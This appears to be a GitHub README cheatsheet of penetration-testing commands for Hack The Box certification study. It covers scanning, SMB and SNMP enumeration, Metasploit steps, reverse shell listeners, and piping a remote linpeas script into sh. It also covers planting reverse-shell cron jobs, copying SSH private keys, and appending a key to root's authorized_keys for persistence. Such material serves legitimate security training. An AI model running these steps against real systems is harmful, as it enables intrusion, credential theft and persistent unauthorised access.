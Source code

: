 # HTBCert
Cheatsheet for the Hack The Box certification

# Useful Commands
Python Web Server `sudo python3 -m http.server 80`

# Service Scanning
## Nmap
- All purpose nmap command `nmap -sV -sC -p- IP`

## Banner Grabbing
- Identify service by grabbing its banner `nc -nv IP PORT` 
- Automated using nmap `nmap -sV --script=banner -pPORT IP/RANGE.`

## FTP
- Connect to an FTP `ftp -p IP` 
- Available commands: `cd` `ls` `get FILE`

## SMB
- Enumerating SMB with nmap `nmap --script smb-os-discovery.nse -p445 IP` 
- Enumerate and interact with SMB shares `smbclient -N -L \\\\IP`
- If shares are revealed (For instance users) `smbclient \\\\IP\\users`
- Connecting using a specific user `smbclient -U USER \\\\IP\\users`
- - Available commands: `cd` `ls` `get FILE`

## SNMP
If version < v3 then it's not encrypted. (Other versions are 1 and 2c)
- `snmpwalk -v 2c -c public IP 1.3.6.1.2.1.1.5.0` (Last bit is the community string, find it online with device name)
- `snmpwalk -v 2c -c private  IP`
- Brute force community string using onesixtyone `onesixtyone -c dict.txt IP` dict.txt is the on included on the [Github](https://github.com/trailofbits/onesixtyone) of the tool.

# Web Enumeration
## Gobuster
### Directory/File Enumeration
- Directory (and file) brute-forcing `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` (200, 403 or 301 are a success!)

### DNS Subdomain Enumeration
- `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt`

## Banner Grabbing / Web Server Headers
- `curl -IL https://www.inlanefreight.com`
- [ ] Install https://github.com/FortyNorthSecurity/EyeWitness on VM

## Whatweb
 - Version of web servers, supporting frameworks, and applications `whatweb IP` (Can be automated by using a range (/24) and `--no-errors`)
 
 ## Certificate
 - View the certificate by visiting the application in a web browser, can contain usefull information for a phishing attack.

## Robots.txt
It is common for websites to contain a robots.txt file, whose purpose is to instruct search engine web crawlers such as Googlebot which resources can and cannot be accessed for indexing. The robots.txt file can provide valuable information such as the location of private files and admin pages.

## Source Code
It is worth checking the source code for any web pages we come across. We can hit `[CTRL + U]` to bring up the source code window in a browser.

# Metasploit
- Step 1 `msfconsole`
- Step 2 `search exploit NAME`
- Step 3 `use FULL_NAME` you get full name from the search.
- Step 4 `show options`
- Step 5 `set OPTION_NAME VALUE`, example `set RHOSTS 10.10.10.40` or `set LHOST tun0`
- Step 6 `check`
- Step 7 `run` or `exploit`

## Search for exploit
- `searchsploit APPLICATION Version` searchsploit openssh 7.2

# Netcat Reverse Shell Listener
`nc -lnvp PORT`

# Reverse Shell Commands
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

# Bind Shell Commands
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md

# Upgrade Shell
Python example `python -c 'import pty; pty.spawn("/bin/bash")'`

# Privilege Escalation
https://book.hacktricks.xyz/
`linpeas.sh` exist for Windows as Winpeas
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh` requires internet access on target
if not spin up python server and use that command `curl HOST_IP/linpeas.sh | sh`

## Vulnerable software
Use `dpkg -l` on Linux or look in C:\Program Files on Windows to see what software is installed. They can be outdated and/or vulnerable to publicly available exploits.

## Check User Privileges
check what sudo privileges your user has `sudo -l`
For example if we see that user has access to the echo command without needing a password:
`(user : user) NOPASSWD: /bin/echo` we can then use the command like this: 
`sudo -u user /bin/echo Hello World!` Which prints Hello World!
https://gtfobins.github.io/ Contains a list of commands and how they can be exploited through sudo.
https://lolbas-project.github.io/# Same for Windows.

# Scheduled Tasks
It exists specific directories that we may be able to utilize to add new cron jobs if we have the write permissions over them:
- `/etc/crontab`
- `/etc/cron.d`
- `/var/spool/cron/crontabs/root`
Create a cron job that executes a bash script containg a reverse shell command.

# SSH Keys
If we can read /home/user/.ssh/id_rsa or /root/.ssh/id_rsa we can copy it to our host and connect through ssh to the target:
`ssh user@10.10.10.10 -i id_rsa` for example.

If we already have access as a user and have write write to .ssh and want a more permanent way to access target we can generate a new key using `Xantra@htb[/htb]$ ssh-keygen -f key` 
the `key` file will be used to ssh to the target and `key.pub` will be written to the authprozed_keys file of the target.
`user@remotehost$ echo "ssh-rsa AAAAB...SNIP..." >> /root/.ssh/authorized_keys`

We can now SSH like so: `Xantra@htb[/htb]$ ssh root@10.10.10.10 -i key`

